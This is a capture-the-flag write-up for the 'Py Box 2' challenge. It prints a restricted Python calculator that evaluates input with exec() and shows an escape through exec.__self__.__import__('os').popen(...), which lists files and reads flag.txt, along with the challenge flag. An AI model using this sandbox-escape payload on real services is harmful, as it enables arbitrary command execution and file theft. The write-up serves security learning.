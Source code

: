 # Py Box 2
> Write-up author: vreshco
## DESCRIPTION:
ehh parah! kemarin programku di hek orang, yaudah ta kasih beberapa restriksi semoga ga kena hek lagi wkwkwkwk.
## HINT:
1. exec.__self__ or compile.__self__
## STEPS:
1. Given a machine host to run via netcat and an python script.
2. Let's try to analyze the python script first.

> SCRIPT GIVEN

```
__builtins__ = {
    "compile": compile,
    "exec": exec,
}

BLACK_LIST = []


def calculator(txt: str):
    txt = txt.replace("=", "")
    container = {}
    comp = compile(f"result={txt}", "<string>", "exec")
    exec(comp, container)
    return container.get('result')


def check(text):
    if any([i for i in BLACK_LIST if i in text]):
        return False
    return True


with open("logo", 'r') as f:
    print(f.read())

print("aplikasi aritmatika by H3X0S1337")
print("operasi yang bisa digunakan: ")
print("- perkalian '*'")
print("- pembagian '/'")
print("- pertambahan '+'")
print("- pengurangan '-'")
print("- xor '^'")
print("- modulus '%'")
print("- pangkat '**'")
print("- pembagian lantai '//'")
print("contoh pemakaian:")
print("- 1+1 maka akan menghasilkan 2")
while True:
    try:
        user_input = input("masukkan input: ")
        calc = calculator(user_input)
        print(calc)
    except KeyboardInterrupt:
        break

```

3. Based on the script, we know the vuln is at the `exec()`. It uses it to execute arbitrary code entered by the user as a string.
4. This can potentially lead to arbitrary code execution and other security issues.
5. The `calculator()` function takes the user input as a string, then compiles it using `compile()` and executes it using `exec()` to evaluate the expression and obtain the result.
6. This apparoach can be dangerous if the user input contains malicious code or exploits.
7. Based from the hint, to utilize this vuln we can use either **exec.__self__** or **compile.__self__**.
8. For this solution i'm gonna use **exec.__self__**, let's try to list the files or directories inside it.

> COMMAND

```
exec.__self__.__import__("os").popen("ls").read()
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/227161893-4f647142-ec76-43da-a0a3-2aef0450b6c6.png)


9. Great it works! Since there's flag.txt, let's cat that out.

> COMMAND

```
exec.__self__.__import__("os").popen("cat flag.txt").read()
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/227162279-c3ff73c1-34d3-4ef2-bd09-c0310cb9658e.png)


10. Got the flag!

## FLAG

```
TCP1P{using_another_functon__self__to_get__import__}
```
